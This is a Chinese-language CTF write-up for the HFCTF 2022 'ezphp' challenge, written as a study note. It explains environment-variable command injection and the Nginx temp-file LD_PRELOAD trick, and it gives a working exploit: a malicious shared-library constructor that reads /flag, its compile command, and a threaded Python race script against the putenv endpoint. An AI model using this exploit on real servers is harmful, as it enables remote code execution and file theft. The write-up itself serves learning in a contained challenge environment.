 ```yaml
---
id: hf2022-ezphp
title: hf2022-ezphp
---
```




## 前言

当时是没做出来，一直在看P神的这篇：[我是如何利用环境变量注入执行任意命令 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html#0x06-bash_env)

后来发现wp都看不懂！！就打算复现学习一下，属于是那段时间没打比赛拉下的东西

## 题目环境

1. docker环境[My-CTF-Challenges/hfctf-2022/ezphp at master · waderwu/My-CTF-Challenges (github.com)](https://github.com/waderwu/My-CTF-Challenges/tree/master/hfctf-2022/ezphp)

   这里我用的docker file搭了个本地，把文件解压到目录下

   下面是当时的history，最后访问vps映射的端口就行了
   ps：url要加上index.php（因为优先选择了存在的index.nginx-debian.html）

   ```
   docker build .
   docker images
   docker run -d -p 8899:80 --name testphp d7ffa14d954b
   docker ps
   docker exec -it 2d43 /bin/bash
   ```
   
2. 也可以去pwnthebox或者buu的环境：

   - [题库 | PwnTheBox - Hacking Platform - CTF Platform](https://ce.pwnthebox.com/challenges?q=ezphp&page=1&id=1906)
   - [BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[HFCTF2022]ezchain)

## 正文

题目如下：

```php
<?php (empty($_GET["env"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo hfctf2022');?>
```

看到就想起了P神的这篇：

> [我是如何利用环境变量注入执行任意命令 | 离别歌](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html#0x06-bash_env)
> php中调用system本质上是调用了`sh -c`
>
> 在不同操作系统中：
>
> - debian：sh→dash
> - centos：sh→bash
>
> 总结：
>
> - `BASH_ENV`：可以在`bash -c`的时候注入任意命令
> - `ENV`：可以在`sh -i -c`的时候注入任意命令
> - `PS1`：可以在`sh`或`bash`交互式环境下执行任意命令
> - `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令
> - `BASH_FUNC_xxx%%`：可以在`bash -c`或`sh -c`的时候执行任意命令

不过本题的环境是debian系统，也就是dash，所以很多师傅就去审dash源码想找一下p神没找到的利用姿势

> 我看了两晚上dash代码，几乎要给我看吐了，我很难理解为什么代码里要用这么多goto。最后还是很遗憾，虽然找到了两个可以进行命令注入的环境变量，但它们都不能在sh -c时触发。

看了wp，本题涉及到的是另外的利用点：

- Nginx临时文件 
  [hxp CTF 2021 - A New Novel LFI - 跳跳糖](https://tttang.com/archive/1384/)
  [0xbb - PHP LFI与Nginx协助 (bierbaumer.net)](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

  - 当 Nginx 接收来自 FastCGI 的响应时，若大小超过限定值 (大概 32Kb) 不适合以内存的形式来存储的时候，一部分就会以临时文件的方式保存到磁盘上。在 `/var/lib/nginx/fastcgi` 下产生临时文件。
  - 但是Nginx 创建文件就立即删除了，不过Nginx删除的`/var/lib/nginx/fastcgi`下的临时文件，还可以在`/proc/pid/fd/`下找到
    （如果打开一个进程打开了某个文件，某个文件就会出现在 `/proc/pid/fd/` 目录下，而如果该文件没被关闭的情况下就被删除，仍能在对应的`/proc/pid/fd`下找到并读取文件内容）

  

- LD_PRELOAD加载SO

  [通过LD_PRELOAD绕过disable_functions - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/86544746)

  - so文件就是c/c++编译出来的动态链接库，也叫共享库

  - 程序在动态链接时需要一个动态链接库，作用在于当动态库中的函数发生变化对于可执行程序来说时透明的，可执行程序无需重新编译，方便程序的发布/维护/更新

  - LD_PRELOAD就是这样一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。

    **那就可以构造恶意的so文件，其中是重写的系统函数，当执行代码函数，就会调用恶意库中的系统函数**，从而实现任意系统命令执行，这就需要条件：

    - 能够上传自己的.so文件
    - 能够控制环境变量的值（设置LD_PRELOAD变量），比如putenv函数

  

那么本题思路如下：

1. 请求一个过大的的文件使得Nginx产生临时文件缓存
2. 传一个填满脏数据的 so文件
3. 遍历 pid 以及 fd ，竞争 LD_PRELOAD 包含 proc目录下的临时文件 从而实现 LFI

> exp.c
>
> ```c
> #include <stdlib.h>
> #include <stdio.h>
> #include <string.h>
> 
> __attribute__ ((__constructor__)) void preload (void){
>   unsetenv("LD_PRELOAD");
>   system("id");
>   system("cat /flag > /var/www/html/flag");
> }
> ```
>
> 编译为so
>
> ```sh
> gcc -shared -fPIC exp.c -o exp.so
> ```
>
> 竞争脚本（这里用的是r3师傅写的[2022 虎符CTF Writeup by 唯独你没懂 (qq.com)](https://mp.weixin.qq.com/s?__biz=Mzg2MjYxMjAzMg==&mid=2247483903&idx=1&sn=26b6af39bc1bf9a0055c0be38a666472&chksm=ce047ed0f973f7c6b7a2ee4a300d10d22cf2a6e38fcbe5190011c8f08b14da9a30db2bf11061&mpshare=1&scene=23&srcid=0321x9PydhpbLJpuag0EBm4W&sharer_sharetime=1647861577180&sharer_shareid=3679f20229d72930158c21ee7f573b1e#rd)）
>
> ```python
> import  threading, requests
> 
> url="https://xxx/"
> nginx_workers = [10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]
> done = False
> 
> 
> def uploader():
>     print('[+] starting uploader')
>     with open("exp.so","rb") as f:
>         data = f.read()
>     while not done:
>         requests.get(url, data=data + (16 * 1024 * 'A').encode())
> for _ in range(16):
>     t = threading.Thread(target=uploader)
>     t.start()
> def bruter(pid):
>     global done
>     while not done:
>         print(f'[+] brute loop restarted: {pid}')
>         for fd in range(4, 32):
>             try:
>                 requests.get(url, params={
>                     'env': f"LD_PRELOAD=/proc/{pid}/fd/{fd}"
>                 })
>             except:
>                 pass
> 
> 
> for pid in nginx_workers:
>     a = threading.Thread(target=bruter, args=(pid, ))
>     a.start()
> 
> ```
>
> 这里因为要遍历pid和fd，所以会久一些。
> 如果是搭在docker里，就可以直接找nginx worker看一下
>
> ```
> ps -ef |grep nginx |grep -v grep
> ```



